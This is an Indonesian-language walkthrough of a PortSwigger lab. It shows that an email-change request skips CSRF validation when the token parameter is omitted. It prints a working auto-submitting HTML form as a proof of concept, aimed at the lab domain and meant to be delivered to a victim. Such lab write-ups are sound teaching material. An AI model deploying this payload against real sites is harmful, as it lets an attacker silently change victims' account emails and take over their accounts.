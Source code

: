 
# CSRF where token validation depends on token being present

Fitur pengubahan email di lab ini rentan terhadap **serangan CSRF**.

**Untuk menyelesaikan lab**, gunakan exploit server Anda untuk menayangkan sebuah halaman HTML yang melakukan **serangan CSRF** untuk mengganti alamat email pengunjung.

Anda dapat login ke akun Anda sendiri dengan kredensial:
```
Username: wiener
Password: peter
```

> **Hint**: Anda tidak dapat mendaftarkan alamat email yang sudah dipakai oleh pengguna lain. Jika Anda mengubah email Anda sendiri saat menguji exploit, pastikan menggunakan alamat yang berbeda saat mengirimkan exploit final ke korban.

---

### Referensi
- [Bypassing token validation - PortSwigger](https://portswigger.net/web-security/csrf/bypassing-token-validation)

---

![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)

---

Dalam kasus ini, **request POST** default untuk mengubah email memiliki parameter `csrf`, namun **ternyata tetap berhasil** jika kita **hanya mengirimkan parameter email** saja **tanpa** token `csrf`:

![img](images/CSRF%20where%20token%20validation%20depends%20on%20token%20being%20present/1.png)


note: hilangkan &csrf=EWvzZrstzTyNUyKmmIz5iNzc29kNNQb
Jika kita mengklik "Engagement tools" > "Generate CSRF PoC" di Burp Suite, akan dihasilkan HTML **PoC** berikut:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a27008804d6685d8057df8500ab003c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test4&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Penjelasan Singkat PoC
- Aplikasi **mengharuskan** token `csrf` hanya jika parameter tersebut **ada**.  
- Namun jika parameternya **dihapus** sepenuhnya, validasi tidak berjalan, dan **request tetap diproses**.  
- Dengan menyertakan `<script>` yang memanggil `document.forms[0].submit();`, korban **tidak perlu** menekan tombol apa pun. Begitu halaman terbuka, **request POST** akan otomatis dikirim ke `/my-account/change-email` dengan **parameter email** saja.  
- Jika korban **masih login**, browser akan **mengirim session cookie** ke server, dan email korban akan berhasil diubah ke `test4@test.com`.

**Langkah terakhir**: Unggah HTML PoC ini ke **exploit server**, lalu berikan link ke korban. Saat korban mengunjungi tautan dan masih login, perubahan email akan terjadi.
